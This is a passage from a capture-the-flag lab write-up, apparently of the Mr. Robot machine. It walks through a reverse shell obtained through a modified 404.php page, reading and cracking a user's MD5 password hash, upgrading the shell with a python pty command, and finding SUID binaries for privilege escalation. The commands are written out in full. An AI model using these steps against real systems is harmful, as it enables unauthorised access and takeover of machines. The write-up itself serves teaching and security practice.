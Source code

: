 Now that everything is set up, visit the modified 404.php page.

<pre>http://10.10.235.143/404.php</pre>

We got the reverse shell, signed in as "daemon".

![rev shell](https://imgur.com/tSCdkFA.png)

I went to visit the **/home** directory to see who is on the system. There is a user called **robot** with a couple of files. I was unable to see the contents of the key file but I was able to see what was inside “password.raw-md5”.

<pre>cd /home/robot
ls
cat key-2-of-3.txt
cat password.raw-md5</pre>

![key 2](https://imgur.com/aOsBBnw.png)

<pre>robot:c3****************************3b</pre>

This looks like a hash value, a quick google search reveals the password:

![hash](https://imgur.com/uRbQ2qY.png)

Let’s try and change the user to robot with this password that we found in his home directory. Make sure the shell is upgraded to fully interactive TTY, otherwise the command will not work.

<pre>python -c 'import pty; pty.spawn("/bin/bash")'
su robot</pre>

![su](https://imgur.com/GmGjIma.png)

We have successfully logged in a Robot, and we can also view the second key in Robot's home directory: 

<pre>key-2-of-3.txt</pre>

## Privilege Escalation

Now that we have a lower privileged user, we are aiming to escalate this for sudo rights in order to have complete ownership of the system.

Let’s firstly check for SUID. SUID is essentially a way to run a command as another user using any services running on the unix-like operating system. We can use these to elevate our current rights on the system.

This following command checks for all the SUID binaries on the system:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![suid](https://i.imgur.com/hwh5sCA.png)

If you are interested in another machine where SUID exploitation is needed, look at my other writeup on ByteSec - a Vulnhub machine.

[Byte Sec CTF - CyberGoat](https://www.cybergoat.co.uk/writeup/ByteSec/)

